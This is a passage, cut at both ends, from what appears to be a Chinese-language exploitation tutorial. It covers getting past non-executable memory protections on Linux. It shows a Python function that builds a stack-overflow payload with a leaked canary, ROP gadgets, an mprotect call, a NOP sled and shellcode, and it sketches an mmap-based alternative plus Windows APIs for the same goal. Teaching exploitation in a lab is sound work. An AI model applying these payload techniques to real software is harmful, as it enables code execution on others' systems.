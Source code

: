 1. prot：所需的访问保护。例如PROT_READ、PROT_WRITE和PROT_EXECUTE。  
  
根据 Linux x64 调用约定，这三个参数必须通过 RDI、RSI 和 RDX 寄存器传递。我们需要构建一个执行以下操作的 ROP 链：  
1. 将与页面边界对齐的堆栈地址设置为 RDI，这可以通过将该地址写入堆栈并通过弹出小工具（pop rdi; ret）检索它来完成。  
  
1. 通过将 RSI 写入堆栈并通过弹出小工具 ( pop rsi; ret) 检索它来设置所需的大小。  
  
1. 通过将 RDX 写入堆栈并通过弹出小工具 ( pop rdx; ret) 检索它来设置所需的保护。  
  
1. 将的直接地址放在mprotect堆栈上作为返回地址，以便程序可以直接跳转到执行它。  
  
1. 将 shellcode 地址放在地址旁边，mprotect以便 API 返回后立即执行。  
  
```
def hijack_exec(p: Popen, canary):    shellcode = 0x7fffffffddb0 + 0x40                     # Shellcode Address    stack_page = shellcode & 0xfffffffffffff000           # Aligne the address to the page boundary.    payload = b""    payload += b"A" * 0x112                               # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", 0x7ffff7dd8205 ) # pop rdi; ret    payload += struct.pack( "<Q", stack_page ) # The aligned stack page address    payload += struct.pack( "<Q", 0x7ffff7dd9b39 ) # pop rsi; ret    payload += struct.pack( "<Q", 0x1000 ) # Page size     payload += struct.pack( "<Q", 0x7ffff7ebb37d ) # pop rdx; ret    payload += struct.pack( "<Q", 0x01 | 0x02 | 0x04 ) # Protections: PROT_EXEC=0x01, PROT_WRITE=0x02, PROT_READ=0x04     payload += struct.pack( "<Q", 0x7ffff7ebb200 ) # mprotect function address    payload += struct.pack( "<Q", shellcode ) # Jump into shellcode    payload += b"\x90" * 0x40                             # NOPs for padding    payload += buf # Shellcode    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()
```  
  
  
让我们运行这个利用策略并看看会发生什么。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXriaCiaQnIeZSVIk4MhCEzcyQemq751nENzIkmBrvaBtEXo9ITEodZsLicA/640?wx_fmt=png&from=appmsg "")  
  
或者，在 Windows 中，可以使用类似NTSetInformationProcess和的函数SetProcessDEPPolicy来禁用此类保护，并根据配置的 DEP 模式使内存可执行。在基于 Unix 的系统中，有一些类似的方法，我们可以使用一个称为 的低级 API ，personality并将标志作为参数传递READ_IMPLIES_EXEC给它，这将使稍后映射的内存即使尚未使用执行权限进行映射（这在先前创建的堆上不起作用）。  
  
一种有效的方法是映射具有执行权限的新内存，然后将恶意指令移动到该内存，并重定向程序的执行流以执行这些指令。在 Windows 中，有几个低级 API 可以帮助实现此目的，例如VirtualAlloc、NtAllocateVirtualMemory、WriteProcessMemory和NtWriteVirtualMemory。另一方面，基于 Unix 的系统也有一些函数可以执行相同的操作，例如mmap。让我们按照这种方法来开发我们自己的漏洞利用程序。  
  
我们需要构建一个ROP链来完成以下工作：  
  
```
pExecutableMemory = mmap( NULL, 0x1000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1, 0 );memcpy( pExecutableMemory, pShellcode, ulShellSize );pExecutableMemory(); // jmp/call pExecutableMemory
```  
  
  
声明mmap内容如下：  
  
```
void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
```  
  
  
它采用以下参数：  
1. addr：新映射的起始地址在 addr 中指定或为 NULL。  
  